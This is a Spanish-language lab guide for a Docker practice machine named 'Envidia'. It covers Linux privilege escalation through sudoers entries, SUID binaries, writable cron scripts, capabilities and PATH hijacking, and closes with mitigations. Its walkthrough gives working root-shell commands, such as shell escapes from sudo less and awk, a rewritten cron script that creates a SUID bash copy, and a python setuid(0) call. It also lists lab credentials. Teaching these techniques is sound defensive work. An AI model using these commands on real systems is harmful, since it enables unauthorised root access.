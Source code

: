 = Envidia
:author: Manuel L. Quero
:revdate: 2025-04-20
:toc: left
:doctype: book

<<<

== Escalada de privilegios

La escalada de privilegios es el uso de una falla de software, una vulnerabilidad, un defecto de diseño, una falla de configuración o un control de acceso en un sistema operativo o aplicación para obtener acceso no autorizado a recursos que normalmente están restringidos para una aplicación o usuario.

Como resultado, la aplicación o el usuario obtienen más privilegios de los que fueron diseñados por el desarrollador o administrador del sistema, lo que permite a los atacantes acceder a información confidencial, instalar malware y lanzar otros ciberataques.

=== Tipos de escalada

. *Escalada de privilegios vertical* -> El atacante comienza con una cuenta de bajo nivel (por ejemplo, un usuario estándar) y busca elevar sus privilegios para obtener acceso administrativo (como root en Linux o administrador en Windows). El objetivos comunes es acceder a datos sensibles, instalar malware, ejecutar comandos como administrador.

. *Escalada de privilegios horizontal* -> El atacante ya posee una cuenta privilegiada, pero intenta acceder a recursos o funciones que están fuera del alcance original de ese usuario. En aplicaciones web implica acceder a cuentas de otros usuarios, como acceder al panel de administrador desde una cuenta normal.

=== Vectores de ataque

Nosostros nos vamos a centrar en la escalada de privilegios vertical.

==== 1. Archivo sudoers

El archivo Sudoers es el archivo en el que se almacenan los usuarios y grupos que tienen privilegios root para ejecutar algunas o todas las órdenes como root o otro usuario, este archivo se encuentra en /etc. La sintaxis es la siguiente para el permiso root por defecto *"root ALL = (ALL: ALL) ALL"*, aunque también hay una opción TAG disponible que es opcional.

image::assets/Sintaxis.png[Sintaxis sudoers]

Por lo que en este archivo se puede dar privilegios root a los comandos binarios, poniendo en la configuración el binario en concreto *"NOPASSWD : /usr/bin/find"* este tipo de autorización lleva a una elevación de privilegios para acceder a root, además la etiqueta NOPASSWD significa que no se pedirá ninguna contraseña para la autenticación al ejecutar el comando sudo -l.

==== 2. Binario SUID

El bit SUID (Set User ID) se utiliza en archivos ejecutables para otorgar al usuario que los ejecute los privilegios del propietario del archivo (generalmente root). Esto es necesario en algunos binarios, como /usr/bin/passwd, para realizar acciones que requieren permisos elevados.

Sin embargo, si el binario con el bit SUID activado es vulnerable, un atacante puede explotarlo para ejecutar comandos como root. Este tipo de vulnerabilidad puede ser detectado fácilmente usando herramientas como find para localizar archivos con el bit SUID activado.

==== 3. Cron ejecutando script editable

Primeramente debemos entender crontab, hay dos tipos:

* *Crontab del sistema* -> Se encuentra en */etc/crontab*, principalmente sirve para programar tareas a nivel global (para todos los usuarios). Además, puede contener scripts que se ejecutan con privilegios elevados.

* *Crontab de usuario* -> Se crea con el comando *crontab -e*, por lo que las tareas solo afectan al usuario que las crea y se almacenan en /var/spool/cron/crontabs, pero los usuarios estándar no pueden ver ni listar estos archivos directamente. También se conocen como “cron jobs ocultos”.

Por lo que un usuario malintencionado podría modificar un script que se ejecuta automáticamente como root desde /etc/crontab si tiene permisos de escritura sobre ese archivo o script, logrando así ejecutar código malicioso con privilegios elevados.

Se puede ver el contenido en *cat /etc/crontab*. Esto es útil para identificar scripts vulnerables que podrían ser aprovechados para una escalada de privilegios.

==== 4. Capacidades en binario

Antes de las capabilities, los procesos en Linux solo se diferenciaban entre privilegiados (root) y no privilegiados (usuarios normales). Con las capabilities, los privilegios de root se dividen en pequeños permisos, permitiendo que los procesos tengan solo los permisos necesarios para realizar tareas específicas, mejorando así la seguridad.

La diferencia entre SUID y capabilities es:

* *SUID (Set User ID)* -> Permite a un usuario ejecutar un archivo con los permisos de su propietario (generalmente root). Es fácil de detectar y puede ser peligroso si el binario es vulnerable.

* *Capabilities* -> Asignan permisos más específicos a los procesos. Por ejemplo, en lugar de dar acceso total a root, se puede permitir que un binario escuche en un puerto sin ser root, utilizando capacidades como *CAP_NET_BIND_SERVICE*.

Los valores de las capabilites son:

* *P (Permitted)* -> Marca la capability como habilitada. Es decir, ahora esta podrá tener el valor de Effective o Inheritable.

* *E (Effective)* -> Aplica la capability al proceso definido.

* *I (Inheritable)* -> La pueden heredar los subprocesos.

Las capabilities permiten dividir los privilegios de root en partes más pequeñas, otorgando solo los permisos necesarios. Esto mejora la seguridad, ya que los procesos reciben solo lo que necesitan para ejecutar tareas específicas. Pero si una capability se asigna a un binario de manera inapropiada, puede permitir a los usuarios ejecutar acciones que deberían estar restringidas.

image::assets/Capabilities.png[Capabilities]

==== 5. PATH Hijacking

El PATH Hijacking se produce cuando un script que se ejecuta con privilegios elevados (como root) llama a comandos sin especificar una ruta absoluta. Si un atacante puede manipular el entorno PATH, podría colocar un ejecutable malicioso en una ruta que aparezca antes en el orden de búsqueda del PATH. De esta manera, el sistema ejecutaría el archivo malicioso en lugar del ejecutable legítimo, lo que permitiría al atacante ejecutar código malicioso con privilegios elevados.

==== Otros vectores

*NFS* permite compartir directorios y archivos entre sistemas a través de una red. Sin embargo, una configuración incorrecta puede introducir vulnerabilidades críticas que faciliten la escalada de privilegios.

La opción *no_root_squash* en la configuración de NFS permite que el usuario root en el cliente mantenga privilegios de root en el servidor al acceder a los recursos compartidos. Esto puede ser explotado por un atacante para crear archivos con permisos SUID en el servidor, facilitando la obtención de una shell con privilegios elevados. Por defecto, NFS utiliza root_squash para mapear al usuario root del cliente a un usuario anónimo sin privilegios, como nfsnobody, mitigando este riesgo.

<<<

== Solucionar la máquina

En esta guía nos centraremos en la escalada de privilegios vertical, aprendiendo cómo elevar los privilegios desde un usuario estándar en distintos contextos. En esta máquina, simularemos que ya hemos obtenido las credenciales de un usuario. Es importante mencionar que existen muchas técnicas para escalar privilegios, pero aquí veremos las más comunes.

Además, a lo largo de esta máquina veremos vulnerabilidades de binarios asi que recomiendo este repositorio: https://gtfobins.github.io/[GTFOBins]

Debemos tener en cuenta que hay tres servicios activos:

* *Apache* → Muestra archivos del servidor FTP: (http://dante.172.35.0.2.nip.io)

* *FTP* → Permite subir archivos autenticándonos como usuario: (ftpuser:ftp123)

* *SSH* → Proporciona acceso al sistema para gestión remota: (user:password)

Dado que ya disponemos de las credenciales, nos conectamos al contenedor SSH.

[source,bash]
----
$ ssh user@172.35.0.4 -p 22
----

Si nos sale un error ponemos el comando que nos indica:

image::assets/SSHerror.png[SSHerror]

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de envidia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh envidia.tar
----

=== 1. Archivo sudoers

==== Reconocimiento

Una vez dentro como usuario, deberemos verificar si tenemos privilegios sobre algún comando específico, para ello usamos el siguiente comando:

[source,bash]
----
$ sudo -l
----

* *-l* -> Lista los comandos específicos a los que el usuario tiene privilegios.

image::assets/sudoers/sudoL.png[comando sudo -l]

==== Escalada

Cómo podemos ver tenemos permisos en los binarios de less y awk. No necesitamos conocer cómo funciona el comando, sino cómo vulnerarlo, por lo que podemos buscarlo en GTFOBins,:

===== less

Buscnado en GTFOBins, en la sección de *Sudo* encontraremos cómo vulnerarlo -> https://gtfobins.github.io/gtfobins/less/[GTFOBins less]

Entonces, como este comando usa root, lo que necesitaremos es crear una shell dentro de él, entonces los comandos que ejecute esa shell serán de administrador y habremos escalado:

[source,bash]
----
$ sudo less /etc/profile
$ !/bin/sh
----

image::assets/sudoers/less1.png[less]
image::assets/sudoers/less2.png[escalar con less]

===== awk 

Hacemos el mismo proceso anterior, buscando en GTFOBins -> https://gtfobins.github.io/gtfobins/awk/[GTFOBins awk]

[source,bash]
----
$ sudo awk 'BEGIN {system("/bin/sh")}'
----

image::assets/sudoers/awk.png[awk]

De esta forma podemos escalar de privilegios si tenemos permisos de root en algunos comandos.

=== 2. Binario SUID

==== Reconocimiento

Primeramente vamos a buscar los binarios SUID que hay en el sistema:

[source,bash]
----
$ find / -perm -4000 -type f 2>/dev/null
----

image::assets/suid/reconfind.png[reconocimeineto]

Podemos ver que hay una ruta que es distinta a todas las otras, podemos ver su código para entender mejor que ocurre si lo ejecutamos.

image::assets/suid/codigo.png[ver codigo]

==== Escalada

Es un código escrito en python3 que inicia una shell, cómo tiene el bit SUID, abrerá dicha shell como root. Por lo que nos disponemos a ejecutarlo:

image::assets/suid/root.png[escalar root]

Y cómo podemos ver somos root, esto es muy útil conocerlo, ya que si un servicio con privilegios de root le diese el bit SUID a un archivo, este se ejecutaría con permisos de root, lo cual lo vamos a ver en el siguiente vector.

=== 3. Cron ejecutando script editable

==== Reconocimiento

Para este caso, deberemos comprobar primeramente qué se está ejecutando con crontab, de esta forma podemos ver si hay algún archivo vulnerable. Por lo que ejecutamos el siguiente comando para verlo:

[source,bash]
----
$ cat /etc/crontab
----

image::assets/cronjob/cronjob.png[cronjob]

En este caso, no aparece ningún archivo que se esté ejecutando, por lo que miramos en otras rutas:

[source,bash]
----
$ ls -l /etc/cron*
----

image::assets/cronjob/cronlist.png[lista cron]

Podemos ver que hay uno que se ha ejecutado recientemente, y podemos leerlo, posiblemente tenga la ruta del script que ejecute:

image::assets/cronjob/horacron.png[hora cron]

El contenido nos muestra que cada minuto ejecuta ese script y lo almacena en un log, por lo que podemos ver los logs:

image::assets/cronjob/horalogs.png[logs]

Por lo que este script da la hora cada minuto, entonces vamos a ver sus permisos y si podemos editarlo:

[source,bash]
----
$ ls -la /usr/local/bin/hora.sh
----

image::assets/cronjob/hora1.png[hora]

==== Escalada

Cómo tiene permisos de escritura para otros, podemos editarlo y sobrescribir en el archivo. Asi que vamos a ejecutar una shell como root creando en /tmp el archivo rootbash:

[source,bash]
----
$ echo '#!/bin/bash' > /usr/local/bin/hora.sh 
$ echo 'cp /bin/bash /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chown root:root /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chmod +s /tmp/rootbash' >> /usr/local/bin/hora.sh 
----

Este conjunto de comandos sobrescribe el script /usr/local/bin/hora.sh que será ejecutado automáticamente por cron con privilegios de root. El script copia el binario de bash a /tmp/rootbash, cambia su propietario a root y le aplica el bit SUID, lo que permite que cualquier usuario que lo ejecute obtenga una shell con privilegios de root, cómo hemos visto antes.

image::assets/cronjob/horaeditar.png[editar archivo]

Una vez hecho esto, esperamos a que cronjob lo ejecute como root:

image::assets/cronjob/horaroot.png[escalada root]

De esta forma hemos visto como encontrar ejecutables vulnerables con cronjob, aunque hay herramientas que pueden facilitarnos el trabajo como:

* https://github.com/peass-ng/PEASS-ng/[LinPEAS]
* https://github.com/DominicBreuker/pspy[pspy]

Hay muchas formas de vulnerar cronjob mediante otros vectores, por lo que recomiendo mirar -> https://juggernaut-sec.com/cron-jobs-lpe/[Escalada con Cronjob].

=== 4. Capacidades en binario

==== Reconocimiento

Deberemos conocer que paquetes tiene instalados el sistema, ya que puede tener lenguajes cómo python que nos pueden ayudar a escalar, por lo que buscamos entre todos hasta que encontremos alguno que nos interese:

[source,bash]
----
$ dpkg -l
----

image::assets/capabilities/dpkg.png[dpkg]

Cómo tiene python podemos hacer un sleep con este para ver el número de proceso es y ver sus capabilities:

[source,bash]
----
$ python3 -c 'import time; time.sleep(500)'
----

image::assets/capabilities/psaux.png[psaux]

Podemos ver que su PID es el 1022, para encontrar las capabilities podemos verlo en /proc, donde habrá varios números los cuales son los IDs de los procesos:

image::assets/capabilities/pid.png[pid]

Para ver que capabilities tiene ese proceso ponemos el siguiente comando:

[source,bash]
----
$ cat /proc/(PID)/status | grep Cap
----

image::assets/capabilities/cap.png[capabilities]

Estos nos aparecerán en hexadecimal, para entenderlo podemos usar *capsh*, el cual podemos instalar en nuestro sistema y decodificar cada hexadecimal. En este caso solo tenemos tres números, pero antes de esto debemos entender las lineas:

[source,bash]
----
CapInh -> Capabilities Inherentes (Inheritable)
CapPrm -> Capabilities Permitidas (Permitted)
CapEff -> Capabilities Efectivas (Effective)
CapBnd -> Límite de Bound capabilities
CapAmb -> Ambient capabilities
----

En cuanto a los números tenemos:

image::assets/capabilities/numeros.png[numeros hex]

El que nos interesa es *CAP_SETUID* que aparece en *CapPrm* y *CapEff*, esto significa que permite a un proceso cambiar su UID y, por lo tanto, escalar privilegios. Normalmente, solo el usuario root puede hacer esto, pero si un proceso tiene CAP_SETUID, puede cambiar a cualquier otro usuario, incluido root.

==== Escalada

Por lo que si nos vamos a GTFOBins y en la parte de Capabilities -> https://gtfobins.github.io/gtfobins/python/#capabilities[GTFOBins python].

[source,bash]
----
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
----

image::assets/capabilities/root.png[escalada root]

Ajustando un poco el comando a python3 podremos escalar como root.

=== 5. PATH Hijacking

==== Reconocimiento:

Primeramente podemos ver nuestro /home si hay algún script que utilice algún comando normal, como ls, head, etc. En nuestro caso tenemos uno que se llama top10.py, si lo inspeccionamos muestra los 10 primeros usuarios y tiene permisos de root ya que tiene el bit SUID:

image::assets/path/ejecucion.png[ejecucion top10]

image::assets/path/Top10.png[Top10]

Cómo ejecuta head como root, debe de obtener su función de $PATH:

image::assets/path/path.png[echo $path]

==== Escalada

Por lo que nosotros vamos a cambiar el path para que primero mire donde estamos y crearemos un script que nos de una shell como root.

image::assets/path/cambiarpath.png[cambiar path]

image::assets/path/head.png[crear head]

Una vez hecho ejecutamos el programa:

image::assets/path/root.png[escalar root]

==== Aclaración

Cómo hemos visto en este último, el código del programa estaba en C, si hubiese estado en Python o Bash, no hubiese funcionado el PATH hijacking. Esto es porque el bit SUID solo funciona con binarios compilados (como los hechos en C) porque el sistema los ejecuta directamente y respeta el privilegio del propietario (por ejemplo, root). En cambio, los scripts como Bash o Python son interpretados, y el sistema lanza el intérprete (no el script) sin aplicar el SUID, por seguridad. Así se evita que scripts fácilmente modificables obtengan privilegios elevados.

<<<

== ¿Cómo prevenir?

=== 1. Archivo sudoers

* *Revisar permisos* -> Utilizar *sudo -l* para listar los comandos que un usuario puede ejecutar con sudo. De esta forma nos aseguramos de que solo se permitan los comandos necesarios.

* *Evitar NOPASSWD innecesario* -> No otorgar la opción *NOPASSWD* a menos que sea absolutamente necesario, ya que permite ejecutar comandos sin autenticación adicional.

* *Especificar rutas completas* -> En el archivo sudoers es importante definir las rutas completas de los comandos permitidos para evitar que se ejecuten versiones maliciosas ubicadas en otras rutas.

* *Uso de visudo* -> Para editar el archivo *sudoers* se utiliza visudo debido a que la sintaxis incorrecta puede dejarlo con un sistema roto donde es imposible obtener privilegios elevados.

=== 2. Binario SUID

* *Eliminar permisos SUID y SGID innecesarios:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f -exec chmod u-s,g-s {}
----

* *Revisar periódicamente archivos con permisos elevados:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
----

* *Usar herramientas* -> Implementar herramientas de monitoreo como AuditD y SELinux.

* *Aplicar el principio de privilegio mínimo* -> Evitar que usuarios no administradores tengan acceso a binarios sensibles.

* *Habilitar autenticación multifactor y segmentación de red para minimizar impacto en caso de explotación.*

=== 3. Cronjob

* *Revisar cronjobs* -> Auditar las tareas programadas en /etc/crontab, /etc/cron.d/, y los crontabs de usuarios para identificar posibles riesgos.

* *Restringir permisos de scripts* -> Tenemos que verificar que los scripts ejecutados por cronjobs no sean modificables por usuarios sin privilegios.

* *Evitar ejecutar scripts en directorios temporales* -> No se recomiendan tareas que ejecuten scripts ubicados en directorios como /tmp o /var/tmp.

* *Especificar rutas absolutas* -> En los cronjobs, es importante utilizar rutas absolutas para los comandos y scripts ejecutados.

=== 4. Capabilities

* *Enumerar capabilities asignadas:*

[source,bash]
----
$ getcap -r / 2>/dev/null
----

* *Revocar capabilities innecesarias* -> Podemos usar *setcap -r <archivo>* para eliminar capabilities de binarios que no las requieran.

* *Evitar asignar capabilities peligrosas* -> Por ejemplo, *cap_setuid* o *cap_dac_read_search* pueden ser riesgosas si se asignan a binarios accesibles por usuarios sin privilegios.

* *Implementar políticas de seguridad* -> Se recomienda configurar mecanismos como *AppArmor* o *SELinux* para restringir el uso de capabilities.

=== 5. PATH Hijacking

* *Usar rutas absolutas* -> En scripts y binarios, se debe especificar la ruta completa de los comandos, por ejemplo, /usr/bin/head en lugar de head.

* *Validar y restringir el $PATH* -> Nos debemos asegurar de que el $PATH no incluya directorios escribibles por usuarios sin privilegios, como . o /tmp.

* *Configurar secure_path en sudoers* -> Es importante definir un $PATH seguro para comandos ejecutados con sudo.

* *Revisar scripts con privilegios* -> Podemos auditar scripts que se ejecutan con privilegios elevados para asegurarte de que no sean susceptibles a path hijacking.

=== Otros vectores

Un caso no explorado es el de NFS, aquí veremos cómo mitigarlo:

* *Evitar no_root_squash* -> Nos debemos asegurar de que la opción *no_root_squash* no esté habilitada en el archivo */etc/exports*. Esta opción permite que el usuario root en el cliente NFS tenga privilegios de root en el servidor, lo cual es peligroso.

* *Utilizar root_squash* -> Esta opción mapea las solicitudes del usuario root del cliente a un usuario sin privilegios en el servidor, como *nobody*, reduciendo el riesgo de escalada de privilegios.

* *Montar con opciones seguras* -> En el cliente, debemos montar los sistemas de archivos NFS con las opciones *nosuid* y *nodev* para evitar la ejecución de binarios con el bit SUID y el uso de dispositivos especiales.

* *Restringir el acceso* -> Limitar el acceso a las exportaciones NFS especificando direcciones IP o rangos de red específicos en el archivo /etc/exports, evitando el uso de comodines como *.

* *Auditoría regular* -> Debemos revisar periódicamente las configuraciones de NFS y los permisos de los archivos compartidos para detectar posibles vulnerabilidades.

----
"Hackear un sistema requiere conocer sus reglas mejor que las personas que lo crearon o lo están ejecutando, y explotar toda la distancia vulnerable entre cómo esas personas habían pretendido que funcionara el sistema y cómo realmente funciona, o podría funcionar. Al capitalizar estos usos no intencionales, los hackers no están rompiendo las reglas tanto como desacreditarlas."

- Edward Snowden
----